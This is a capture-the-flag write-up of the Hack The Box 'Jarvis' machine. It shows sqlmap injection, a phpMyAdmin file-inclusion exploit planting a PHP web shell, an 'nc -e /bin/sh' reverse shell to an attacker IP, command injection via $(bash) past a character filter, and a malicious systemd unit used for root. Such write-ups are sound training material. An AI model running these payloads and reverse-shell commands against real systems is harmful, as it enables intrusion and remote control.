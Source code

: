 ```yaml
---
title:     "Hack The Box - Jarvis"
tags: [linux,medium,sudo,setuid,sqli,phpmyadmin,python]
layout: post
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/1.png)

We are going to pwn Jarvis from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/194>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.18 (94%), Linux 4.2 (94%), Linux 3.12 (93%), Linux 3.8 - 3.11 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

It looks like a normal webpage. So better we try bruteforcing the directories.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/2.png)

Got some details on the bottom of the page.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/3.png)

## Gobuster Result:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.143
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/03 19:14:12 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/04/03 19:15:59 Finished
===============================================================
```

``/phpmyadmin``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/4.png)
Tried with default credentials ``Username: root Password: [null]`` but failed so better we try to enumerate more.

In the webpage clicking on ``Rooms`` it redirects to ``rooms-suites.php`` and by clicking any of those rooms it redirects to ``/room.php`` with a parameter called cod that holds the room number.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/5.png)

So I started SQLMAP with the url. There is some kind of filter which Ban us for 90 seconds.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/6.png)

>sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/7.png)
And it give me some payload. It Looks like SQL Injection using UNION is there.

### What is SQL Injection using UNION?
>When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database.

> sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3 --password

Got ``DBadmin`` hash.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/9.png)

I cracked that using [CrackStation](https://crackstation.net/)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/10.png)

``/phpmyadmin``<br/>

``DBadmin:imissyou``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/11.png)

Found Phpmyadmin's version so search for any exploit available.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/12.png)

><https://www.exploit-db.com/exploits/44928>

According to the exploit we need to inject the payload in SQL Query.<br/>
```select '<?php system($_GET["cmd"]);?>'```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/13.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/14.png)

Now we need to get the Session ID of phpMyAdmin.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/15.png)

``http://supersecurehotel.htb/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_8271hfci8stuji9h69a2huedmt4dt75e&cmd=ls``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/16.png)

Its working lets try to get reverse shell!

## Shell as www-data

``nc -e /bin/sh 10.10.14.19 1234``

I got the shell as ``www-data``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/17.png)


I started with ``sudo -l`` and looks like we can run ``simpler.py`` as pepper without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/18.png)

Lets see how ``simpler.py`` works<br/>
```
python simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    
```
While checking the python code, I found a Interesting thing:
```
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It takes the input and ping the command we send and it also forbidden ``['&', ';', '-', '`', '||', '|']`` these symbols to prevent us to do some other commands.But they didn't filtered ``$``, we can use this by ``$(command)``. I did ``$(bash)`` and got the user ``pepper``.

```
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1 $(bash)
127.0.0.1 $(bash)
pepper@jarvis:/var/www/Admin-Utilities$ whoami
whoami
pepper@jarvis:/var/www/Admin-Utilities$
pepper
```

## Privilege Escalation

Started my enumeration script and found there is a SUID binary.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/19.png)

I checked [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), According to that we need to create a service that executes a file of our choice when it enables.
I created a service called ``test.service`` in my machine and uploaded that to the box.

``test.service``
```
[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.19 5555"
[Install]
WantedBy=multi-user.target
```

Uploaded the script to the box and gave executable permission. Now we need to link the service first and then enable the service which executes it.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/20.png)

Started my listener<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/21.png) <br/>
I'm Root

